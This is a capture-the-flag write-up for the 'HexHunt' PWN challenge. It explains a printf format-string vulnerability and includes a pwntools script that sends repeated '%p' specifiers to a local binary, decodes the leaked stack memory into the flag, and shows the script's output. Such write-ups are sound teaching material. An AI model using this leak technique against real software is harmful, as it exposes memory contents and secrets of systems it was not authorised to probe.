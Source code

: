 # HexHunt 
**Challenge category**: PWN


# Description 
printf is indeed useful for printing messages to the terminal however it can cause security issues if misused, using custom format printf can represent data in different ways, for example you can print a number in decimal using %d or in hex using %x


# Solution 
## Manual 
Using a text editor we create a payload then send it to the binary, next we copy the output and convert it from hex to string using cyberchef
![cyberchef](./Screenshot_2024-03-19_23-56-56.png)

## PWN Tools
Using the following script we send 100 `%p` to the binary and parse the output to get the final flag
```
from pwn import *

p = process("../build/hexhunt")
#p.interactive()

p.sendline(b"%p"*100)

output = p.recv().decode()

output = output.replace("(nil)","")

flag = ""
for item in output.split("0x"):
	try:
		flag += bytes.fromhex(item).decode()
	except ValueError:
		...

flag = flag.replace("p%", "")
flag = ''.join([flag[i:i+8][::-1] for i in range(0, len(flag), 8)])
print (f"Here is your flag: {flag}")

```
**Output**
```
root@hostname:~/Desktop/CatchTheFutoor/challenges/PWN/hexhunt/writeup$ python3 exploit.py 
[+] Starting local process '../build/hexhunt': pid 16751
Here is your flag:   HEX_HUNT_CHALLENGE  
[*] Stopped process '../build/hexhunt' (pid 16751)

```


# Refs
- [format-exploit](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)